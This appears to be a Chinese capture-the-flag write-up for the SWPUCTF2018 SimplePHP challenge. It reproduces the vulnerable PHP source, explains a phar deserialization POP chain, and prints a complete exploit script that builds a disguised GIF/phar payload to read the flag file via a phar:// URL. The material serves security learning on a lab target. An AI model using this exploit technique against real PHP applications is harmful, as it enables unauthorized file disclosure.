

# \[SWPUCTF2018] SimplePHP

## \[SWPUCTF2018] SimplePHP

## 考点

* 代码审计
* phar反序列化
* pop链构造

## wp

### 源码

打开靶机，在查看文件这里可以看到 url 为 `http://f292dcfd-887b-4ebb-b292-7d78df57cc52.node3.buuoj.cn/file.php?file=` 不难想到文件包含

试试 php://filter/ 发现没有反应，但是直接输入文件名可以读取文件，分别获取 file.php function.php class.php upload\_file.php base.php


```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
```



```php
<?php 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } } 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        }}} 
```



```php
<?php
class C1e4r{
    public $test;
    public $str;
    public function __construct($name){
        $this->str = $name;}
    public function __destruct(){
        $this->test = $this->str;
        echo $this->test;}}
class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;}
    public function __toString(){
        $content = $this->str['str']->source;
        return $content;}
    public function __set($key,$value){
        $this->$key = $value;}
    public function _show(){
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }}
    public function __wakeup(){
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
            }}}
class Test{
    public $file;
    public $params;
    public function __construct(){
        $this->params = array();}
    public function __get($key){
        return $this->get($key);}
    public function get($key){
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";}
        return $this->file_get($value);}
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;}}
```



```php
<?php 
include 'function.php'; 
upload_file(); 
?>  
```



```php
<?php 
    session_start(); 
	echo $_SERVER['REMOTE_ADDR'];
?>  
```


### phar反序列化 <a href="#185268911" id="185268911"></a>

拿到源码后进行审计，发现在对上传文件检查( upload\_file\_check )时，采用了白名单的方式


这样我们能够选择的绕过方式就不多了，可以去考虑 phar ，然后在 file.php 中发现调用了`file_exists()`函数，这给构造 phar 反序列化提供了条件


接下来就是读取文件了，在 `Test` 类的 `file_get()` 调用了 `file_get_contents` 获取文件内容，或许这就是突破口。`file_get()` 被调用的前提是 `Test` 类的实例化对象调用了未定义的属性或没有权限访问的属性，即 `__get()` 函数被调用


如何让 `Test` 类的 `__get()` 函数被调用，在 `Show` 类的 `__toString()` 方法中，`$this->str['str']->source` 访问了自己的 `source` 变量，这个变量 `Test` 类可没有，所以这就是让 `$this->str['str']` 为 `Test` 类的实例化对象。


如何让 `Show` 类的 `__toString()` 方法被调用，可以看到在 `C1e4r` 中的 `__destruct()` 函数调用了 `echo $this->test;` 让 `test` 是 `Show` 类的实例化对象即可


最后是上传的路径，在 `upload_file_do()` 中给出了文件存储位置，实际上可以选择直接访问 /upload 寻找

上传路径为 `/upload/md5(filename+ip+.jpg)`



flag 的位置在 `Show` 类的 `_show()` 函数也可以看到提示，file.php 页面的注释中也有

要注意的是读取 flag 只能用绝对路径，不能使用相对路径


```php
<?php
class C1e4r{
    public $test;
    public $str;

}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$a = new Test();
$a->params['source'] = "/var/www/html/f1ag.php";
$b = new Show();
$b->str['str'] = $a;
$c = new C1e4r();
$c->str = $b;
$phar = new Phar("1.phar", 0, '1.phar');
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c);
$phar->stopBuffering();
?>
```


访问`file.php?file=phar://upload/8adc336297a3d5eb2550edc08aa372a8.jpg`即可
